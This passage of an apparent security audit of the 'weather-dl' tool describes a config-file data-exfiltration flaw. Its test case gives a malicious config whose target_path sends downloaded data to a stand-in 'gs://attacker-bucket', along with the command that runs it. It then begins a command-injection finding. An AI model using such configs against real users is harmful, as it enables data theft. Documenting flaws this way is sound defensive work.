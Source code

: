     ```mermaid
    graph LR
        A[User executes weather-dl with malicious config] --> B{weather-dl tool};
        B --> C(Read malicious_config.cfg);
        C --> D{Extract target_path from config};
        D --> E[Download weather data];
        E --> F[Save data to target_path (attacker-controlled destination)];
        F --> G[Data exfiltration successful];
    ```

- **Security Test Case:**
    1. Create a malicious configuration file named `malicious_config.cfg` with the following content. Replace `gs://attacker-bucket/exfiltrated_data` with a Google Cloud Storage bucket you control for testing purposes.
        ```cfg
        [parameters]
        client=cds
        dataset=reanalysis-era5-pressure-levels
        target_path=gs://attacker-bucket/exfiltrated_data/era5_data.nc
        partition_keys=year

        [selection]
        product_type=reanalysis
        format=netcdf
        variable=temperature
        pressure_level=850
        year=2023
        month=08
        day=01
        time=12:00
        ```
    2. Assume you are a user and have been socially engineered to use this configuration file. Execute the `weather-dl` tool using the malicious configuration:
        ```bash
        weather-dl malicious_config.cfg --local-run
        ```
    3. After the command execution completes, navigate to the attacker-controlled Google Cloud Storage bucket (`gs://attacker-bucket/exfiltrated_data/`) using the Google Cloud Console or `gsutil` command-line tool.
    4. Verify that the downloaded weather data file (`era5_data.nc`) is present in the `gs://attacker-bucket/exfiltrated_data/` bucket. This confirms that the data has been exfiltrated to the attacker-controlled destination, demonstrating the vulnerability.

---

### Command Injection via Configuration File Parsing in `weather-dl`

- **Vulnerability Name:** Command Injection via Configuration File Parsing
- **Description:**
    - The `weather-dl` tool is designed to download weather data based on configurations provided in `.cfg` or `.json` files.
    - An attacker could create a malicious configuration file.
    - This malicious file would contain specially crafted input within configuration parameters (e.g., `target_path`, `dataset` or any other processed parameter).
    - If `weather-dl`'s configuration parser does not properly sanitize or validate these inputs, it could allow the attacker to inject arbitrary commands.
    - When a user, such as a climate or weather researcher, unknowingly uses `weather-dl` with this malicious configuration file, the injected commands would be executed by the system.
- **Impact:**
    - **Critical Impact:** Successful command injection can lead to arbitrary code execution.
        - **Unauthorized Access:** Attackers could gain unauthorized access to the user's local system or cloud environment.
        - **Data Exfiltration:** Sensitive data, including weather data, API keys, or personal files, could be exfiltrated to attacker-controlled locations.